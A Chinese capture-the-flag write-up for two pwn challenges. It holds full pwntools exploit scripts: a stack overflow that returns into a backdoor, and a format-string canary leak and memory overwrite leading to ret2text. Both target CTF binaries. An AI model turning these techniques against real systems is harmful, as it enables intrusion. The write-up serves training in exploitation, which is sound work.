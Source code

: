 CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
p = process('./ezpwn')
else:
p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

ret = 0x40101a
backdoors = 0x401539
key = b'astrobot'
p.recvuntil(b'\x21\x0a')
p.send(key)
p.recvuntil(b'something:')
payload = b'A' * 0x58 + p64(ret) + p64(backdoors)

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor，开启了canary，有格式化字符串漏洞，可以用该漏洞泄漏canary。
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当地址为0x404068的值为0x56785678时便可以进入第二步，第二步则是简单的ret2text。
第一步用格式化字符串漏洞修改0x404068的值为0x56785678即可。
exp:
```python
from pwn import *

from wstube import websocket

  

context(arch='amd64', os='linux', log_level='debug')

local = False

if local:

p = process('./fmt_str')

pwnlib.gdb.attach(p, 'b *0x40127b')

else:

p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f07e-58cc-74dd-b653-4657c29d274e')

  

backdoor = 0x4013df

change_addr = 0x404068

ret = 0x40101a

  

p.sendlineafter(b'Input:', b'%25$p')

p.recvuntil(b'0x')

canary = int(p.recv(16), 16)

log.info(f'canary: {hex(canary)}')

  

payload = fmtstr_payload(8, {change_addr: 0x56785678}, write_size='byte')

p.sendlineafter(b'Input:', payload)

p.recvuntil(b'first step!')

  

payload2 = b'a' * 0x88 + p64(canary) + b'b' * 8 + p64(ret) + p64(backdoor)

p.sendline(payload2)

  

p.interactive()
```
shell:
![[Pasted image 20250210233359.png]]
## shellcode

## walt改造的编译器
